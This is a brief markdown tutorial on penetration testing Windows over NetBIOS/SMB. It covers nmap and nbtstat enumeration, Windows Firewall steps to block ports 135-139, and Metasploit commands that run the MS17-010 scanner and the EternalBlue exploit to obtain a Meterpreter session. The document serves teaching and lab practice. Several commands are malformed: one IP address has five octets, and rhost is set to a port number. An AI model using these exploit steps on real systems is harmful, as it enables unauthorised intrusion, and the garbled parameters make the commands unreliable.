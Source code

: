 # NetBIOS/SMB Penetration on Windows

---

### Scanning open port for NetBIOS Enumeration

> You will scan the target network for open TCP and UDP ports and protocol.

```bash
nmap -sT -sU 192.168.1.128
```

#### Ports That Open

### 

## You Can Enumerate The Network Using Nbtstat

```bash
nbtstat -a 192.168.1.128
```

### Hardening The Targeted System

#### Open Windows Firewall Settings

#### Filtering Ports 135-139

> 1. Click on Inbound Rules
> 2. Click NEW RULE
> 3. Click Button for port to create new rule \(TCP or UDP\)
> 4. Click Next
> 5. Click UDP port to apply rule
> 6. Click next
> 7. Chose Block Connection

#### Scan Target System Again

```
nbtstat -a 192.168.1.128
```

#### 

## Exploit Target System Using Metasploit

```
msf > search smb_ms17_010

msf > Use auxiliary/scanner/smb/smb_ms17_010

msf auxiliary(smb_ms17_010) > set rhost 192.168.1.28

msf auxiliary(smb_ms17_010) > set port 445

msf auxiliary(smb_ms17_010) > exploit
```

### Exploit Results

> From the results you will see that the system is vulnerable to the scan
>
> * **rhost** is the target system IP address
> * **lhost** is your system IP address

```
search smb_ms17_010_eternalblue

use exploit/windows/smb/ms17_010_eternalblue

msf exploit(ms17_010_eternalblue) > set rhost 192.168.1.1.128

msf exploit(ms17_010_eternalblue) > set rhost 445

msf exploit(ms17_010_eternalblue) > set lhost 192.168.1.115

msf exploit(ms17_010_eternalblue) > exploit
```

#### Meterpreter Session

> Meterpreter session of targeted system will show information regarding the system





